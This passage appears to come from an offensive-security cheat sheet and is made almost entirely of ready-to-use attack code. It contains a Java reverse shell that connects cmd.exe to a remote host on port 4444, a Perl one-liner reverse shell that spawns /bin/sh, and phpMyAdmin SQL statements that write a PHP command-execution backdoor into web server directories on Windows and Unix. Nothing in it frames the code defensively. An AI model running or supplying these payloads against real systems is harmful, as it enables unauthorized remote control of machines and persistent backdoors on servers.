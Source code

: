 ### Windows Reverse Shell
```Java
String host="192.168.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

***

## Perl

### Reverse Shell
```perl
perl -MIO -e 'use Socket;$ip="192.168.0.1";$port=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***

## PhpmyAdmin

Write a CMD shell into a file with the right permissions. Issue the following select.
(Try different paths for different webservers)

*Windows:*
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

*Unix:*
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

***
